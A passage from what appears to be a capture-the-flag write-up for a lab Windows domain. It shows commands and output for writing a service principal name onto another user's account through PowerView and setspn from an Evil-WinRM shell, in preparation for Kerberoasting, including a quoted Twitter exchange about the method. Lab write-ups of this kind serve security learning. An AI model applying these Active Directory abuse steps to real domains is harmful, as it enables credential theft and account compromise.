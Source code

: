 ~~It’s not clear to my why I can’t write this SPN, but it seems like a dead end.~~
*Update*: After publishing this bit, I got this reply on Twitter:

> Cool writeup !   
> You could actually set an SPN for Maria and kerberoast it. You had to provide Smith's credential object but the hash was not crackable anyways :( . You can find how I did it here <https://t.co/TkuUqrmL2o>
>
> — morph3 (@melihkaanyldz) [March 1, 2022](https://twitter.com/melihkaanyldz/status/1498635702300549123?ref_src=twsrc%5Etfw)

This wasn’t quite right, as because the shell is already running as smith, the cred isn’t necessary. It seems that my instance of Object was just in a bad state. On a reset:

```
*Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{serviceprincipalname='nonexistent/0XDF'}
*Evil-WinRM* PS C:\programdata> Get-DomainUser maria | Select serviceprincipalname

serviceprincipalname
--------------------
nonexistent/0XDF

```

But in subsequent replies on Twitter, morph3 did show how to do it using `setspn` (a [binary](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) that should be on DC). That works as well, as now both SPNs are there:

```
*Evil-WinRM* PS C:\programdata> setspn -a MSSQLSvc/object.local:1433 object.local\maria
Checking domain DC=object,DC=local
CN=maria garcia,CN=Users,DC=object,DC=local
        MSSQLSvc/object.local:1433

Updated object
*Evil-WinRM* PS C:\programdata> Get-DomainUser maria | Select serviceprincipalname

serviceprincipalname
--------------------
{object.local/maria.object.local:1337, nonexistent/0XDF}

```

To actually Kerberoast, I’ll need to use an SPN with a [valid format](https://docs.microsoft.com/en-us/windows/win32/ad/name-formats-for-unique-spns) (unlike `nonexistent/0xDF`), so I’ll use that one going forward.

`PowerView` has `Get-DomainSPNTicket` to Kerberoast, but it actually requires a credential object (even though I am logged in as smith):

```
*Evil-WinRM* PS C:\programdata> Get-DomainSPNTicket -SPN "MSSQLSvc/object.local:1433"
Warning: [Get-DomainSPNTicket] Error requesting ticket for SPN 'MSSQLSvc/object.local:1433' from user 'UNKNOWN' : Exception calling ".ctor" with "1" argument(s): "The NetworkCredentials provided were unable to c
reate a Kerberos credential, see inner exception for details."

```

